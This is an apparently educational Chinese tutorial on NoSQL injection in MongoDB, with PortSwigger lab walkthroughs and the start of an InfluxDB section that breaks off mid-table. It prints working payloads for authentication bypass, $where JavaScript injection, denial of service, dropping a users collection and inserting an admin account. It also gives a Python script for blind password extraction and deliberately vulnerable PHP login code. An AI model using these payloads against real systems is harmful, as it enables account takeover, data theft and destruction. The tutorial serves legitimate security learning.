# NoSQL 从 0 到1（MongoDB and InfluxDB）

**作者：DELETE**  
**本文为作者投稿，Seebug Paper 期待你的分享，凡经采用即有礼品相送！ 投稿邮箱：paper@seebug.org**

# 1 NoSQL Inject

NoSQL(NOT ONLY SQL)，它和我们常见的sql注入很像。

它的危害有：

-   绕过身份验证或保护机制。
-   提取或编辑数据。
-   导致拒绝服务。
-   在服务器上执行代码。

其实注入的本质都是一样的，只是语法有些不一样。

## 1.1 NoSQL database

NoSQL 数据库以传统 SQL 关系表以外的格式存储和检索数据。它们旨在处理大量非结构化或半结构化数据。因此，它们通常比 SQL 具有更少的关系约束和一致性检查，并且在可扩展性、灵活性和性能方面具有显着的优势。

与 SQL 数据库一样，用户使用应用程序传递到数据库的查询与 NoSQL 数据库中的数据进行交互。然而，不同的NoSQL数据库使用多种查询语言，而不是像SQL（结构化查询语言）这样的通用标准。这可能是自定义查询语言或通用语言（如 XML 或 JSON）。（所以黑客可以使用过程性的语言而不是sql来进行攻击，并且可能会比传统的sql注入更具有危害性。）

NoSQL 数据库不支持一种标准化查询语言，因此允许的确切查询取决于：

-   **数据库引擎**— 例如 MongoDB、Cassandra、Redis 或 Google Bigtable
-   **编程语言**— 例如 Python、PHP
-   **开发框架**——例如 Angular、Node.js

## 1.2 NoSQL database models

| 类型  | 部分代表 | 特点  |
| --- | --- | --- |
| 列存储 | Hbase  <br>  <br>Cassandra  <br>  <br>Hypertable | 顾名思义，是按列存储数据的。最大的特点是方便存储结构化和半结构化数据，方便做数据压缩，对针对某一列或者某几列的查询有非常大的IO优势。 |
| 文档存储 | MongoDB  <br>  <br>CouchDB | 文档存储一般用类似json的格式存储，存储的内容是文档型的。这样也就有机会对某些字段建立索引，实现关系数据库的某些功能。 |
| key-value存储 | Tokyo Cabinet/Tyrant  <br>  <br>Berkeley?DB  <br>  <br>MemcacheDB  <br>  <br>Redis | 可以通过key快速查询到其value。一般来说，存储不管value的格式，照单全收。（Redis包含了其他功能） |
| 图存储 | Neo4J  <br>  <br>FlockDB | 图形关系的最佳存储。使用传统关系数据库来解决的话性能低下，而且设计使用不方便。 |
| 对象存储 | db4o  <br>  <br>Versant | 通过类似面向对象语言的语法操作数据库，通过对象的方式存取数据。 |
| xml数据库 | Berkeley DBXML  <br>  <br>BaseX | 高效的存储XML数据，并支持XML的内部查询语法，比如XQuery,Xpath。 |

## 1.3 注入的类型

有两种 NoSQL 注入分类的方式：

第一种是按照语言的分类，可以分为：PHP 数组注入，JavaScript 注入和 Mongo Shell 拼接注入等等。

第二种是按照攻击机制分类，可以分为：重言式注入，联合查询注入，JavaScript 注入、盲注等，这种分类方式很像传统 SQL 注入的分类方式。

-   **重言式注入**

又称为永真式，此类攻击是在条件语句中注入代码，使生成的表达式判定结果永远为真，从而绕过认证或访问机制。

-   **联合查询注入**

联合查询是一种众所周知的 SQL 注入技术，攻击者利用一个脆弱的参数去改变给定查询返回的数据集。联合查询最常用的用法是绕过认证页面获取数据。

-   **JavaScript 注入**

MongoDB Server 支持 JavaScript，这使得在数据引擎进行复杂事务和查询成为可能，但是传递不干净的用户输入到这些查询中可以注入任意的 JavaScript 代码，导致非法的数据获取或篡改。

-   **盲注**

当页面没有回显时，那么我们可以通过`$regex`正则表达式来达到和传统 SQL 注入中`substr()`?函数相同的功能，而且 NoSQL 用到的基本上都是布尔盲注。

在portswigger中的解释：

-   语法注入
-   当您可以破坏 NoSQL 查询语法，从而使您能够注入自己的有效负载时，就会发生这种情况。该方法与 SQL 注入中使用的方法类似。然而，攻击的性质差异很大，因为 NoSQL 数据库使用一系列查询语言、查询语法类型和不同的数据结构。
-   运算符注入 - 当您可以使用 NoSQL 查询运算符来操作查询时，就会发生这种情况。

## 1.4 判断是否存在注入点

这里我就拿portswigger的在线lab做例子，就不额外搭建环境了。


这里首先是一个商城的界面，随便点击一个category

`url: /filter?category=Accessories`

可以看见这里有类似于查询的意思，我们输入一个单引号试试



可以看见报错了，报错内容：

```cpp
Command failed with error 139 (JSInterpreterFailure): 'SyntaxError: unterminated string literal : functionExpressionParser@src/mongo/scripting/mozjs/mongohelpers.js:46:25 ' on server 127.0.0.1:27017. The full response is {"ok": 0.0, "errmsg": "SyntaxError: unterminated string literal :\nfunctionExpressionParser@src/mongo/scripting/mozjs/mongohelpers.js:46:25\n", "code": 139, "codeName": "JSInterpreterFailure"}
```

很明显可以看见mogodb的操作。那么我们还要判断他是否会把url的内容带入数据库查询，所以我们构造`Accessories'&& 0 && 'x`



可以看见是返回正常的，说明这里存在注入,我们再构造一次为真的条件，就会发现会返回所有商品信息 ，playload:[https://xxxxxxxxxxxxx.web-security-academy.net/filter?category=accessories%27%7c%7c1%7c%7c%27](https://xxxxxxxxxxxxx.web-security-academy.net/filter?category=accessories%27%7c%7c1%7c%7c%27 "https://xxxxxxxxxxxxx.web-security-academy.net/filter?category=accessories%27%7c%7c1%7c%7c%27")

也就是`accessories'||'1'=\='1'`


## 1.5 Inject function

### 1.5.1 重言式注入

```php
var user = db.users.find({"username": userInputUsername, "password": userInputPassword});
```

攻击者可以构造{"$gt":""}来进行绕过

```php
var user = db.users.find({"username": "administrator", "password": {"$gt": ""}});
```

MongoDB 中的运算`"$gt"`符的意思是“大于”。通过将该值设置为空字符串，攻击者可以绕过身份验证，因为查询将返回用户名和密码大于空字符串的第一个用户。

这里也放一下Marcus\_Holloway师傅的index.php

```php
<?php
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];
$password = $_POST['password'];

$query = new MongoDB\Driver\Query(array(
    'username' => $username,
    'password' => $password
));

$result = $manager->executeQuery('test.users', $query)->toArray();
$count = count($result);
if ($count > 0) {
    foreach ($result as $user) {
        $user = ((array)$user);
        echo '====Login Success====<br>';
        echo 'username:' . $user['username'] . '<br>';
        echo 'password:' . $user['password'] . '<br>';
    }
}
else{
    echo 'Login Failed';
}
?>
```

正常用户登录的时候

```cpp
username=whoami&password=657260
```

其实执行的命令和我上面举的例子是一样的,如果这个时候传参

```cpp
username[$ne]=1%password[$ne]=1
```

这样也可构造出一个true，也就是和我们sql注入中的万能密码**admin' or 1=1--+** 一个原理，就是构造永真条件

### 1.5.2 运算符注入

NoSQL 数据库经常使用查询运算符，它提供了指定数据必须满足的条件才能包含在查询结果中的方法。 MongoDB 查询运算符的示例包括：

-   `$where`\- 匹配满足 JavaScript 表达式的文档。
-   `$ne`\- 匹配所有不等于指定值的值。
-   `$in`\- 匹配数组中指定的所有值。
-   `$regex`\- 选择值与指定正则表达式匹配的文档。

对于基于 URL 的输入，您可以通过 URL 参数插入查询运算符。例如，`username=wiener`变为`username[$ne]=invalid`.如果这不起作用，您可以尝试以下操作：

1.  将请求方法从 转换`GET`为`POST`.
2.  将`Content-Type`标题更改为`application/json`。
3.  将 JSON 添加到消息正文。
4.  在 JSON 中注入查询运算符。

进来有个login页面 

抓个包看看

```plain
POST /login HTTP/1.1
Host: xxxxxxxxxxxxx.web-security-academy.net
Cookie: session=djMoS9NuJRKCDsBfzRpHwzdkyy9EqZEC
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://xxxxxxxxxxx7.web-security-academy.net/login
Content-Type: application/json
Content-Length: 39
Origin: https://xxxxxxxxxxx.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"username":"admin","password":"admin"}
```

可以看见最后面传了json格式的文件，我们看见题目要求登录admin的账户，所以就构造playload。

playload： `{"username":{"$regex":"admin.\*"}, "password":{"$ne":""}}`



可以看见也是成功登录

这里也把M师傅的JavaScript注入的一些笔记写进来，因为算是同一个知识点了只不过师傅用的是where这个方法

example：

```php
db.users.find({ $where: "function(){return(this.username == $userData)}" })
```

构造延迟：

```php
db.users.find({ $where: "function(){return(this.username == 'a'; sleep(5000))}" })
```

**MongoDB 2.4 之前**

在 MongoDB 2.4 之前，通过`$where`?操作符使用?`map-reduce`、`group`命令可以访问到 Mongo Shell 中的全局函数和属性，如`db`，也就是说可以通过自定义 JavaScript 函数来获取数据库的所有信息。

如下所示，发送以下数据后，如果有回显的话将获取当前数据库下所有的集合名：

```php
username=1&password=1';(function(){return(tojson(db.getCollectionNames()))})();var a='1
```

**MongoDB 2.4 之后**

MongoDB 2.4 之后`db`属性访问不到了，但我们应然可以构造万能密码。如果此时我们发送以下这几种数据：

```php
username=1&password=1';return true//
或
username=1&password=1';return true;var a='1
```

也是可以查出所有信息的，DOS的一个playload：

```php
username=1&password=1';(function(){var date = new Date(); do{curDate = new Date();}while(curDate-date<5000); return Math.max();})();var a='1
```

也就是一直循环

### 1.5.3 联合查询注入

假设后端的 MongoDB 查询语句使用了字符串拼接：

```php
string query ="{ username: '" + $username + "', password: '" + $password + "' }"
```

当用户正确的用户名密码进行登录时，得到的查询语句是应该这样的：

```php
{'username':'admin', 'password':'123456'}
```

如果此时没有很好地对用户的输入进行过滤或者效验，那攻击者便可以构造如下 payload：

```php
username=admin', $or: [ {}, {'a': 'a&password=' }], $comment: '123456
```

拼接入查询语句后相当于执行了：

```php
{ username: 'admin', $or: [ {}, {'a':'a', password: '' }], $comment: '123456'}
```

此时，只要用户名是正确的，这个查询就可以成功。这种手法和 SQL 注入比较相似：

```php
select * from logins where username = 'admin' and (password true<> or ('a'='a' and password = ''))
```

这样，原本正常的查询语句会被转换为忽略密码的，在无需密码的情况下直接登录用户账号，因为`()`内的条件总是永真的。

### 1.5.4 使用 Command 方法造成的注入

懒了，这里也是直接贴出来

```php
<?php
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];

$cmd = new MongoDB\Driver\Command( [
    'eval' => "db.users.distinct('username',{'username':'$username'})"
] );

$result = $manager->executeCommand('test.users', $cmd)->toArray();
$count = count($result);
if ($count > 0) {
    foreach ($result as $user) {
        $user = ((array)$user);
        echo '====Login Success====<br>';
        echo 'username:' . $user['username'] . '<br>';
        echo 'password:' . $user['password'] . '<br>';
    }
}
else{
    echo 'Login Failed';
}
?>
```

playload:

```php
username=1'});db.users.drop();db.user.find({'username':'1
username=1'});db.users.insert({"username":"admin","password":123456"});db.users.find({'username':'1
```

### 1.5.5 盲注

#### 1.5.5.1 布尔盲注

index.php

```php
<?php
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];
$password = $_POST['password'];

$query = new MongoDB\Driver\Query(array(
    'username' => $username,
    'password' => $password
));

$result = $manager->executeQuery('test.users', $query)->toArray();
$count = count($result);
if ($count > 0) {
    foreach ($result as $user) {
        $user = ((array)$user);
        echo '====Login Success====<br>';
        echo 'username:' . $user['username'] . '<br>';
        echo 'password:' . $user['password'] . '<br>';
    }
}
else{
    echo 'Login Failed';
}
?>
```

判断playload：

```php
username=admin&password[$regex]=.{number}
```

附上m师傅的盲注脚本

```python
import requests
import string

password = ''
url = 'http://192.168.226.148/index.php'

while True:
    for c in string.printable:
        if c not in ['*', '+', '.', '?', '|', '#', '&', '$']:

            # When the method is GET
            get_payload = '?username=admin&password[$regex]=^%s' % (password + c)
            # When the method is POST
            post_payload = {
                "username": "admin",
                "password[$regex]": '^' + password + c
            }
            # When the method is POST with JSON
            json_payload = """{"username":"admin", "password":{"$regex":"^%s"}}""" % (password + c)
            #headers = {'Content-Type': 'application/json'}
            #r = requests.post(url=url, headers=headers, data=json_payload)    # 简单发送 json

            r = requests.post(url=url, data=post_payload)
            if 'Login Success' in r.text:
                print("[+] %s" % (password + c))
                password += c

# 输出如下: 
# [+] 1
# [+] 12
# [+] 123
# [+] 1234
# [+] 12345
# [+] 123456
```

#### 1.5.5.2 时间盲注

一些playload

```php
{"$where": "sleep(5000)"}
```

```php
admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'
```

```php
admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'
```

# 2 portwigger-lab

## 2.1 利用NoSQL 注入提取数据

首先进来还是利用之前给的号进入



发现有个lookup的文件进行搜索user： [https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener](https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener "https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener")



所以这里就尝试判断注入是否存在playload：

[https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener](https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener "https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener")



[https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener'&& '1'=\\='1](https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener%27&&%20%271%27=\=%271 "https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener'&& '1'=\='1")



正常，所以判断是有注入的，那么这里如何获取数据呢？

尽管题目给了admin的账户名，但是对于实战当中我们是没办法知道用户名的，所以我还是以winter这个account做例子 playload： [https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener' && this.password.length < 30 || 'a'='b](https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener%27%20%20&&%20this.password.length%20%3C%2030%20||%20%27a%27=%27b "https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener'  && this.password.length < 30 || 'a'='b")

 [https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener' && this.password.length < 0 || 'a'='b](https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener%27%20%20&&%20this.password.length%20%3C%200%20||%20%27a%27=%27b "https://0xxxxxxxxxxxxxxxxxx.web-security-academy.net/user/lookup?user=wiener'  && this.password.length < 0 || 'a'='b")



所以这里看见是可以对长度进行判断的，比如我们的密码是`peter`也就是5位那我们构造下length =\\=5也是为真的。



接下来可以利用

```php
winter' && this.password\[0\]=\='a
```

进行猜密码，这里可以写脚本也可以burp启动，这里就放出一些例子的图片，不多说明





### 2.1.1识别字段名称

由于 MongoDB 处理不需要固定架构的半结构化数据，因此您可能需要先识别集合中的有效字段，然后才能使用 JavaScript 注入提取数据。

例如，要识别MongoDB数据库是否包含字段`password`，您可以提交以下有效负载：[https://insecure-website.com/user/lookup?username=admin'+%26%26+this.password!%3d](https://insecure-website.com/user/lookup?username=admin%27+%26%26+this.password!%3d "https://insecure-website.com/user/lookup?username=admin'+%26%26+this.password!%3d")

再次发送现有字段和不存在字段的有效负载。在此示例中，您知道该`username`字段存在，因此您可以发送以下有效负载：

```php
admin' && this.username!='
admin' && this.foo!='
```

如果该`password`字段存在，您会期望响应与现有字段 ( ) 的响应相同`username`，但与不存在字段 (?`foo`) 的响应不同。

如果您想测试不同的字段名称，您可以通过使用单词列表循环不同的潜在字段名称来执行字典攻击。

## 2.2 利用NoSQL运算符注入来提取数据

假设有一个接受的程序：

```php
{"username":"wiener","password":"peter"}
```

要测试是否可以注入运算符，您可以尝试将`$where`运算符添加为附加参数，然后发送一个条件计算结果为 false 的请求，以及另一个计算结果为 true 的请求。例如：

```json
{"username":"wiener","password":"peter", "$where":"0"}
{"username":"wiener","password":"peter", "$where":"1"}
如果存在差异，则存在注入
```

### 2.2.1 提取字段名称

```php
"$where":"Object.keys(this)[0].match('^.{0}a.*')"
```

这将检查用户对象中的第一个数据字段并返回字段名称的第一个字符。这使您能够逐字符提取字段名称

## 2.3 lab

首先说一下大概的思路，也就是利用前面的{$ne:''}构造一个万能密码，会发现登录不了也就是（Account locked）需要reset password，这个时候我们直接利用语句`"$where":"Object.keys(this)[1].match('^.{}.*')"`来获取json的名称，类似于

```json
{
"username":"xxxxx"
"password":"xxxxxx"
"forgetPWD":"xxxxx"
}
```

中的username,password，我们给对方的邮箱发送重置密码，然后利用上面的语句查出来我们需要的东西是在第几个key之中（其实就是判断他是否存在这个东西）例如这里的forgetpwd就是key我们需要里面的值就可以再使用语句："$where":"this.forgetPWD.match('^.{1}1.\*')"在数字一填入参数来进行爆破最终获取数据，因为我这里的lab响应太慢了我这里直接放一个视频链接可以去看看具体操作 : [https://www.youtube.com/watch?v=fyOzoqd2hl4](https://www.youtube.com/watch?v=fyOzoqd2hl4 "https://www.youtube.com/watch?v=fyOzoqd2hl4")

## 2.4 javascript 运算符提取数据

或者，您也可以使用无法运行 JavaScript 的运算符来提取数据。例如，您可以使用?`$regex`运算符逐字符提取数据。

考虑一个易受攻击的应用程序，它接受请求正文中的用户名和密码`POST`。例如：

```json
{"username":"myuser","password":"mypass"}
```

您可以首先测试运算符是否`$regex`被处理，如下所示：

```json
{"username":"admin","password":{"$regex":"^.*"}}
```

如果对此请求的响应与您提交错误密码时收到的响应不同，则表明该应用程序可能存在漏洞。您可以使用`$regex`运算符逐字符提取数据。例如，以下有效负载检查密码是否以 开头`a`：

```json
{"username":"admin","password":{"$regex":"^a*"}}
```

当然原理是一样的，以上的注入都是基于mangodb的语法，接下来是一种（权新版本）

# 3 InfluxDB

在正式注入之前，我们先要了解一些关于influxdb必要的知识（主要是这个数据库确实比较冷门，但是不排除ctf会考）

## 3.1 什么是InfluxDB

InfluxDB 是一种流行的开源时间序列数据库，旨在处理大量带时间戳的数据。InfluxDB 广泛用于监控和分析来自传感器、应用程序和物联网设备等各种来源的指标、事件和实时数据。

## 3.2 influxDB的数据组织

InfluxDB 数据模型将时间序列数据组织到存储桶和测量中。一个桶可以包含多个测量值。测量包含多个标签和字段。

-   **Bucket**：存储时间序列数据的指定位置。一个桶可以包含多个\_测量值\_。
    -   **测量**：时间序列数据的逻辑分组。给定测量中的所有\_点都应具有相同的\_\_标签\_。一个测量包含多个\_标签\_和\_字段\_。
        -   **Tags**：键值对，其值不同，但不经常更改。标签用于存储每个点的元数据 - 例如，用于识别数据源（如主机、位置、站点等）的东西。
        -   **字段**：键值对，其值随时间变化，例如：温度、压力、股票价格等。
        -   **Timestamp**：与数据关联的时间戳。当存储在磁盘上并查询时，所有数据都按时间排序。

## 3.3 写入数据的一些操作

首先，我们要知道——写入influxdb的数据都是通过一个叫做**line protocol**（翻译叫做线路协议，感觉翻译的不是很好，所以就直接拿出来，以下简称:LP） 在官方文档中举了一个例子：

```js
// Syntax
<measurement>[,<tag_key>=<tag_value>[,<tag_key>=<tag_value>]] <field_key>=<field_value>[,<field_key>=<field_value>] [<timestamp>]

// Example
myMeasurement,tag1=value1,tag2=value2 fieldKey="fieldValue" 1556813561098000000
```

官方文档还提示到：`Line protocol does not support the newline character?`\\n`?in tag or field values`。也就是`\n`不支持转义为换行符，而是代表一个单独的point，关于这个协议的一些要素。



### 3.3.1 measurement

必须存在，且每一个数据点仅接受一个measurement，并且遵循命名规则： `Measurement names, tag keys, and field keys cannot begin with an underscore_.The_namespace is reserved for InfluxDB system use.`

它的数据类型为：string

### 3.3.2 Tag set

【不为必须，可选】该点的所有标签键值对。键值关系用`=`操作数表示。多个标签键值对以逗号分隔。`_`标签键和标签值区分大小写。标签键受到命名限制。标签值不能为空；相反，从标签集中省略该标签。

数据类型：string

### 3.3.3 Field set

必须存在，和measurement一样，必须存在至少一个field，字段键和字符串值区分大小写，同样受到命名限制。 数据类型：对于键名：string

对于值：`FLOAT INTEGER ULINTEGER STRING BOOLEAN`

example(双引号表示filed的值):

```sh
measurementName fieldKey="field string value" 1556813561098000000
```

### 3.3.4 Timestamp

【可选择的】也就是我们常说的时间戳。InfluxDB 接受每个点一个时间戳。如果未提供时间戳，InfluxDB 将使用其主机的系统时间 (UTC)。 数据类型：Unix Timestamp

#### 3.3.4.1 关于时间戳的重要说明(from docs)

-   为了确保数据点包含观察指标的时间（未由 InfluxDB 接收），请包含时间戳。
-   如果您的时间戳不是纳秒，请在将数据写入 InfluxDB时指定时间戳的精度。

### 3.3.5 其他的一些东西

#### 3.3.5.1 Quotes(单引号)

| Element | Double quotes | Single quotes |
| --- | --- | --- |
| Measurement | *Limited*?\* | *Limited*?\* |
| Tag key | *Limited*?\* | *Limited*?\* |
| Tag value | *Limited*?\* | *Limited*?\* |
| Field key | *Limited*?\* | *Limited*?\* |
| Field value | **Strings only** | Never |
| Timestamp | Never | Never |

#### 2.3.5.2 Special Characters(一些特殊的字符)

在以下情况下，需要使用反斜杠 () 转义某些字符

| Element | Escape characters |
| --- | --- |
| Measurement | Comma, Space |
| Tag key | Comma, Equals Sign, Space |
